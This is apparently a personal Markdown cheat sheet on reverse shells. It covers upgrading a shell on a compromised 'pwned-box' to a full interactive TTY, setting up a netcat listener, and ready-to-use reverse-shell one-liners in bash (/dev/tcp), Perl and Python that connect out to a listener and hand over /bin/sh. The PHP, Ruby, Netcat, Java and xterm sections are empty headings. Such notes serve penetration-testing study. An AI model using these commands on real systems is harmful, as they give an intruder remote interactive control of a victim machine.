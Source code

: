 # shells

## Upgrading simple shells to interactive TTYs

```bash
pwned-box$ ^Z                     # suspend the process
host-machine$ echo $TERM          # get the terminal type
host-machine$ stty -a             # get the number of rows/cols
host-machine$ stty raw -echo      # convert terminal to raw
host-machine$ fg                  # re-open the reverse shell
pwned-box$ reset                  # reset the terminal of the reverse shell
pwned-box$ export SHELL=bash      # set the TTY settings: SHELL, TERM, and dimensions
pwned-box$ export TERM=screen
pwned-box$ stty rows <n_rows> cols <n_cols>
```

## Reverse Shells

### Bash
- Tested using
  - Active machine: `Kali Linux 5.7.0`
  - Passive machine: `bash 5.1.4(1)-release` (Kali Linux vagrant box)
- Be sure that `bash` is in use, not `zsh`!

```
# set up netcat listener on active machine
nc -l -vvv -p (nc listener port)

# create reverse shell
# - bash -i :: start interactive bash shell
# - >&      :: redirect both stdout and stderr (fd 1 and 2)
# - /dev/tcp/ip/port :: bash specific syntax for TCP socket connection to ip:port
# - 0<&1    :: redirect fd 1 (connected to the socket) to stdin

bash -i >& /dev/tcp/(active machine)/(nc listener port) 0<&1
```

### Perl (untested)

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python (untested)

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP (untested)

### Ruby (untested)

### Netcat 

### Java

### xterm

## References
- [Pentestmonkey Reverse Shell Cheatsheet](http://web.archive.org/web/20180702062128/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Reverse shell with bash](http://web.archive.org/web/20180625050916/http://www.gnucitizen.org/blog/reverse-shell-with-bash/)
- [The TTY demystified](http://www.linusakesson.net/programming/tty/)
- [Upgrading simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
